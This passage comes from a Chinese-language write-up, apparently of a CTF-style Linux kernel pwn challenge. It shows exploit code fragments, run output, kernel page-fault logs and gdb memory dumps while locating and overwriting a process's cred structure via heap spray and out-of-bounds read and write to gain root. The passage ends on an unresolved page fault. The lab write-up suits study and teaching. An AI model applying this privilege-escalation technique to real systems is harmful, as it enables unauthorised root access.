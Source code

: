     	if (cred_offset == -1)
    	{
    		puts("[x] Failed to find creds!\n");
    		exit(-1);
    	}
    ```

    通过不断增加`MAX_HEAP_AREA`值，每次增加一个`SEARCH_SIZE`，向堆前搜索，最终发现当`MAX_HEAP_AREA`为`0x160000`时，能够稳定找到cred结构，因此可以确定`cred`在分配的第一块可利用堆前`0x150000`到`0x160000`之间。

    而当它达到`0x180000`时，越界读将触发`pagefault in non-whitelisted uaccess`错误。

    ```
    MAX_HEAP_AREA = 0x160000
    ~ $ ./exp
    [*] Opened device.
    [*] Creds heap Spray done!
    [*] Start to search for creds.
    [*] Find cred at offset 0xa304
    
    MAX_HEAP_AREA = 0x180000
    ~ $ ./exp
    [*] Opened device.
    [*] Creds heap Spray done!
    [    5.676221] BUG: pagefault on kernel address 0xffff8cfcfff7b500 in non-whitelisted uaccess
    [    5.681390] BUG: unable to handle kernel paging request at ffff8cfcfff7b500
    ```

    **修改cred**

    理论上，在搜索到cred在内核空间和可利用堆之间的距离后，利用越界写将修改后的cred复制到原位置即可提权。

    修改前的cred值

    ```assembly
    gdb-peda$ p 0xffff8fea0017b500-0x160000+0xa304
    $3 = 0xffff8fea00025804
    gdb-peda$ x/8gx $3
    0xffff8fea00025804:	0x000003e8000003e8	0x000003e8000003e8
    0xffff8fea00025814:	0x000003e8000003e8	0x000003e8000003e8
    ```

    修改cred代码：

    ```c
    	// copy the modified mem to kernel
    	write_object(0, mem, MAX_HEAP_AREA, -MAX_HEAP_AREA);
    ```

    但是在`write`时又会触发`pagefault in non-whitelisted uaccess`

    ```assembly
    gdb-peda$ x/6gx $1
    0xffffffffc03e8400:	0xffffa2148017b500	0x0000000000000100
    0xffffffffc03e8410:	0x0000000000000000	0x0000000000000000
    
    ~ $ ./exp 
    [*] Opened device.
    [*] Creds heap Spray done!
    [*] Start to search for creds.
    [*] Find cred at offset 0xa304
    [   28.202566] BUG: pagefault on kernel address 0xffffa21480099000 in non-whitelisted uaccess
    ```
